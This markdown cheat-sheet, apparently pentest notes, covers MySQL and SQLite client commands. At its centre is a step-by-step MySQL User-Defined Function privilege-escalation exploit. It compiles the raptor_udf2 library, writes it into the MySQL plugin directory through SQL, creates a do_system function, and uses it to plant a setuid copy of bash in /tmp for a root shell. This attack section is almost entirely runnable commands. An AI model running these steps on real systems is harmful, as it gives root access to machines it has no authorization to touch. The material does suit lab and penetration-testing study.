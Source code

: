 # MySQL Server

```bash
# Install MySQL client tool
sudo apt install default-mysql-client

# Conect to database server
mysql -h TARGET-HOST -u root -p

# Gather version of MySQL and OS
mysql> select version();

# List all databases
mysql> show databases;
```

### User-Defined Function MySQL 4.x/5.0 Exploit

[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library](https://www.exploit-db.com/exploits/1518)

```bash
# Compile exploit library
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

# Access MySQL
mysql -u root -p

# Exploiting
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
mysql> \q

# Gain root
/tmp/rootbash -p
```

# SQLite3

```bash
# Install SQLite client tool
sudo apt install sqlite3

# Open database
sqlite3 database-in-a-file.db

# Show tables
sqlite> .tables

# Show columns info
sqlite> PRAGMA table_info(my_table);

# List registers
sqlite> SELECT * FROM my_table;
```